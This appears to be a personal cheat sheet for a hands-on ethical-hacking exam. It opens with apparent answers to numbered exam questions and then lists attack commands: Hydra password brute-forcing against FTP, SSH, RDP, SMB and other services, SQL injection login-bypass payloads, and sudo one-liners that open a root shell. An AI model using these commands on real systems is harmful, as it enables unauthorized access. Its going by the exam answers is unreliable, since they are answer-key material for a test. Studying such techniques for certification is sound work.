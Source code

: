 Q-7
Secret123


Q-20 
ip ADDRESS 172.16.0.40

Q-4 
pass- test
4700056

Q-5 450989878899 

Q-12 F/N 201010988818

Q19 ANDERIOD
 IP 172.16.0.38

1876890


### Windows accounts find:
open the windows cmd
```
$ net user
```
### Host finder:
  Zenmap
 
### FTP Burteforce:
pass wordlist in the windows system. After the login FTP server

### Nmap Command:

$ nmap IP -sV -sC -p -O

### RDP Remote Desktop Connectiom

which IP remote machine service is running?
```
$ nmap IP -sV
```
## SQL Injection:
cookie based sql

### HTTP Vulnerability:
which http request has vulnerability?
```
$ use owaspzap  GET/POST
```
### Cryptography
```
cryptool
BCtextencoder
hash calc
veracrypt
```
### SQL payloads
```
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1—
```
### Hydra
```
    hydra -l root -P passwords.txt [-t 32] <IP> ftp
    hydra -L usernames.txt -P pass.txt <IP> mysql
    hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V
    hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>
    hydra -P common-snmp-community-strings.txt target.com snmp
    hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1
    hydra -l root -P passwords.txt <IP> ssh
 ```
### Making custom wordlist from website keywords:
   $ cewl example.com -m 5 -w words.txt
   
   m= pass lenght
   w= output file
### wireshark
https://unit42.paloaltonetworks.com/using-wireshark-display-filter-expressions/

### Root privilege Escln
  ```
  $ sudo man man
  $ !/bin/bash
  $ sudo awk 'BEGIN {system("/bin/bash")}'
```
